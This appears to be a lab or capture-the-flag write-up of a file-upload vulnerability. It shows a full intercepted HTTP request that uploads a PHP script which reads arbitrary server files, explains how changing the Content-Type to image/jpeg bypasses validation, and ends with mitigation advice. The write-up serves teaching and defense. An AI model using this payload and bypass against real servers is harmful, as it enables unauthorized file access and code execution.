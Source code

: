 # Write-Up: File Upload Exploit

## Exploit Overview

The vulnerability exploited here is related to insecure file upload handling. By intercepting the POST request used to upload a file, we can modify the `Content-Type` header to bypass weak MIME type validation on the server.

### Steps to Exploit

1. Intercept the POST request for file upload using a tool like Burp Suite or similar.
2. Change the `Content-Type` from `application/x-php` (indicating a PHP script) to `image/jpeg` (indicating an image file).
3. Submit the modified request.

Here is the intercepted and modified POST request:

```
POST /?page=upload HTTP/1.1
Host: 192.168.1.33
Content-Length: 597
Cache-Control: max-age=0
Accept-Language: fr-FR,fr;q=0.9
Origin: http://192.168.1.33
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNHtXWgyPKt1jS4A8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.33/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: application/x-php (!!!ICI!!!)

<?php
if (isset($_GET['file'])) {
    echo file_get_contents($_GET['file']);
} else {
    echo "Veuillez fournir un fichier avec ?file=chemin_du_fichier.";
}
?>

------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryNHtXWgyPKt1jS4A8--
```

### Explanation

1. The `Content-Type` was modified from `application/x-php` to `image/jpeg`.
2. The uploaded file, while disguised as an image, contains executable PHP code.
3. If the server does not properly validate the file type and executes the script, the payload is successful.

## Vulnerability Description

This vulnerability arises from insufficient validation of user-uploaded files. While the application performs some checks, they are based solely on the MIME type provided in the HTTP headers, which can be easily manipulated.

### Key Points

- **Manipulable MIME Type:** The `Content-Type` header in the HTTP request can be manually altered.
- **Insufficient Server Validation:** The server does not validate the actual file content or extension.
- **Potential for Code Execution:** The uploaded file can execute malicious code, leading to unauthorized access or further exploitation.

## Mitigation Strategies

To prevent this type of attack, consider implementing the following measures:

1. **Server-Side Validation:**

   - Verify file extensions and MIME types.
   - Perform content inspection of the uploaded file to ensure it matches the expected format.

2. **Restrict Executable File Uploads:**

   - Block potentially dangerous file types like `.php`, `.exe`, `.js`, etc.

3. **File Storage:**

   - Store uploaded files in a directory that is not web-accessible.
   - Rename uploaded files to remove any executable extensions.


